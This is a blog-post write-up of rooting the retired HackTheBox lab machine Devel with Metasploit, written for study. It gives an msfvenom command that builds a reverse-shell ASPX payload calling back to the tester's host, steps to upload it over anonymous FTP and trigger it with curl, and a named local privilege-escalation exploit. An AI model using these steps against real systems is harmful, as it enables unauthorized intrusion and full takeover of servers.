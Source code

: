 ```yaml
---
layout: post
title: "Writeup: HackTheBox Devel - with Metasploit"
description: "Rooting Devel using Metasploit."
tags: pentest hackthebox writeup
---
```


This series will follow my exercises in [HackTheBox][]. All published writeups are for retired HTB machines. Whether
 or not I use Metasploit to pwn the server will be indicated in the title.

# Devel

_<small>Difficulty: Easy</small>_

_<small>Machine IP: 10.10.10.5</small>_

As always, I start enumeration with [AutoRecon][]. The open ports are TCP/21 and TCP/80. While AutoRecon continues
 scanning, I look into the FTP server. It allows anonymous login! I note that in my mind map and leave it for now to
  check on the results of AutoRecon.

I look at what the nmap HTTP script scan found:

![http-scans-command][]

At the bottom of the results, I see a CVE was found:

![http-scans-vuln][]

I see this CVE is tied to [MS-15-034][] and run that through searchsploit:

![searchsploit-results][]

I take a look at the C exploit:

![exploit-code-top][]

I see that the main body of the payload is simply running a validation on whether the target is vulnerable to this CVE.

![exploit-code-main][]

Well, that would still be useful so let's compile and execute the code:

![compile-check][]

Great. Now what?

I back off and take another look at my enumeration results. I know this is a Windows machine because the server at
 TCP/80 is running IIS. I know it has a CVE. I know that I have anonymous access via FTP to the server, to a
  directory that appears to host the web server's files.
  
Ah. Ok.

Let's generate a reverse TCP meterpreter payload with msfvenom, push it to the target via FTP, then call it from the
 web server to execute and establish a shell back to my box.

The payload command is:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.33 LPORT=4444 -f aspx > devel.aspx
```

Substitute the LHOST and LPORT as applicable for your system.

I can now push the file via FTP with `put`:

```bash
ftp 10.10.10.5
# anonymous login
> put ./devel.aspx
```

Then I need to start a meterpreter handler on my machine listening on LPORT.

```bash
sudo msfconsole
msf> workspace htb
msf> use windows/meterpreter/reverse_tcp
```

I just need to set my local IP:

![meterpreter-reverse-options][]

Then I can set up a local listener by converting this to a handler:

![meterpreter-reverse-handler][]

I can now execute my payload with a curl command:

```bash
curl http://10.10.10.5/devel.aspx
```

Meterpreter records the session (ignore the `whoami -> root` command, I was confused on what terminal I was in):

![meterpreter-web-shell][]

I can now connect to the session I've created:

![meterpreter-session][]

Now let's gather information on the system and check what user I am:

![meterpreter-sysinfo][]

Ok, this is a Windows 7 machine with x86 architecture. I am logged in as the IIS user, which isn't going to give me
 much. I can't even write to my current directory. But, I should be able to write to `C:\Windows\TEMP`. I navigate
  over to there and then use `local_exploit_suggestor` to suggest some exploit modules I can run to elevate my shell
   to administrator.

![local-exploit-suggestor][]

The machine seems to be vulnerable to `exploit/windows/local/bypassuac_eventvwr` - let's try that.

It is unsuccessful, as my IIS user isn't in the Administrators group. On to the next.

![escalate-failed][]

The second exploit, `exploit/windows/local/ms10_015_kitrap0d` is successful.

![root-shell][]

I can now go and retrieve the user and root flags.

![user-flag][]

![root-flag][]

[autorecon]: https://github.com/Tib3rius/AutoRecon
[hackthebox]: https://www.hackthebox.eu
[ms-15-034]: https://docs.microsoft.com/en-us/security-updates/securitybulletins/2015/ms15-034

[compile-check]: /assets/img/htb/devel/compile-vuln-check.png
[escalate-failed]: /assets/img/htb/devel/escalate-failed.png
[exploit-code-top]: /assets/img/htb/devel/exploit-code-1.png
[exploit-code-main]: /assets/img/htb/devel/exploit-code-main-method.png
[http-scans-command]: /assets/img/htb/devel/nmap-http-scans-command.png
[http-scans-vuln]: /assets/img/htb/devel/nmap-http-scans-vuln-found.png
[local-exploit-suggestor]: /assets/img/htb/devel/show-local-exploits.png
[meterpreter-reverse-handler]: /assets/img/htb/devel/meterpreter-reverse-shell-handler.png
[meterpreter-reverse-options]: /assets/img/htb/devel/meterpreter-reverse-shell-options.png
[meterpreter-session]: /assets/img/htb/devel/meterpreter-sessions-reconnect.png
[meterpreter-sysinfo]: /assets/img/htb/devel/meterpreter-sysinfo.png
[meterpreter-web-shell]: /assets/img/htb/devel/meterpreter-web-shell.png
[root-flag]: /assets/img/htb/devel/root-flag.png
[root-shell]: /assets/img/htb/devel/meterpreter-root-shell.png
[searchsploit-results]: /assets/img/htb/devel/searchsploit-results.png
[user-flag]: /assets/img/htb/devel/user-flag.png

